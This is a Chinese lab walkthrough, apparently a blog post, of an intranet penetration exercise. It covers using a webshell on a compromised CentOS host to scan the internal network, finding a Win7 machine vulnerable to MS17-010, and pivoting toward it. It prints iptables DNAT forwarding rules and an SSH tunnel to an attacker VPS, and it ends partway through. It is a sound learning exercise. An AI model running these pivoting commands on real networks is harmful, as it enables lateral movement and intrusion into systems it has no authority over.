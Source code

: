 ```yaml
---
layout:     post             
title:      内网保姆车 - 发车啦
date:       2023-10-02            
author:     sule01u                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/Intranet.png
---
```


# 内网渗透实验

## 拓扑如下

![image-20231002220701603](https://p.ipic.vip/2mr93m.png)

## 逐步渗透

#### 1. 拿下web所在主机

> 前置条件：已通过centos的web漏洞拿到shell, 比如搭建tomcat-CVE-2017-12165，进行内网渗透实验
>
> 学习目标：了解内网渗透

- 冰蝎连接centos中的webshell进行操作：

​	使用冰蝎上传fscan,扫描内网,可以看到资产192.168.152.141存在ms17-010漏洞

![image-20230917193540922](https://p.ipic.vip/f86gf5.png)

#### 2. 通过ms17-010拿下win7

**内网穿透**

- 第一种方法 (冰蝎执行命令): 失陷的centos上配置dnat（限制：需要root权限）

```shell
# 失陷linux主机上设置DNAT策略
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination <win7主机_IP>:<win7端口>
iptables -t nat -A POSTROUTING -j MASQUERADE
```

- 第二种方法 ： 在失陷的linux主机上搭建ssh隧道，让流量经过你的vps攻击机（普通用户权限即可）

  适用于目标主机不出网，通过已经失陷的linux主机将流量带出来

```shell
# 失陷linux主机上执行命令,4444为失陷linux主机端口，5555为vps监听端口
# 失陷linux 4444端口的流量会经过vps转发，vps转发到127.0.0.1即是vps自己，也就是失陷的linux主机上4444端口的流量转发到vps主机上的5555端口
ssh -L 4444:127.0.0.1:5555 root@vps_ip
```
